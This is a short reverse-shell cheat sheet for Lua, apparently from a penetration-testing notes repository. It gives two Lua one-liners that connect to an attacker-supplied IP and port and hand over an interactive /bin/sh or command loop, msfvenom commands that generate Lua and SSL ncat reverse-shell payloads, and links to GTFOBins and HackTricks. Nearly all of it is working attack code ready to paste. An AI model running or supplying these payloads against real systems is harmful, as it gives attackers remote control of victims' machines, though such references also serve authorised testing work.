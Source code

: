 # Lua

## 01 - One-liners

First variant.

```lua
$ lua -e "require('socket');require('os');t=socket.tcp();t:connect('<IP>','<PORT>');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```

Second variant.

```lua
$ lua5.1 -e 'local host, port = "<IP>", <PORT> local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, "r") local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'
```

## 02 - Generate a payload via `msfvenom`

```
$ msfvenom -p cmd/unix/reverse_lua lhost=<IP> lport=<PORT>

$ msfvenom -p cmd/unix/reverse_ncat_ssl handlersslcert=[/path/to/file.pem] sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT>
```

---
## References

### GTFOBins

- [GTFOBins: Lua](https://gtfobins.github.io/gtfobins/lua/)

- [GTFOBins: Nmap](https://gtfobins.github.io/gtfobins/nmap/)

- [GTFOBins: view](https://gtfobins.github.io/gtfobins/view/)

- [GTFOBins: rview](https://gtfobins.github.io/gtfobins/rview/)

- [GTFOBins: vim](https://gtfobins.github.io/gtfobins/vim/)

- [GTFOBins: vimdiff](https://gtfobins.github.io/gtfobins/vimdiff/)

- [GTFOBins: rvim](https://gtfobins.github.io/gtfobins/rvim/)

### Hacktricks

- [Hacktricks: Shells Linux](https://book.hacktricks.wiki/en/generic-hacking/reverse-shells/linux.html)